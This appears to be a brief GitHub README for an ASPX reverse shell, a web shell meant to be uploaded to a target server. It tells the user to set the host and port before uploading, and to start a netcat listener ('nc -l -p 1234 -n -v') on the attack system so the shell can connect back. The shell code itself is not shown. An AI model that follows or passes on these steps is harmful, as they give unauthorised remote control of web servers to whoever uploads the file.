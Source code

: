 # aspx-reverse-shell
This is an ASPX reverse shell.

Before uploading this file, change the ``host`` and ``port`` parameters.

On your attack system run ``nc -l -p 1234 -n -v``.
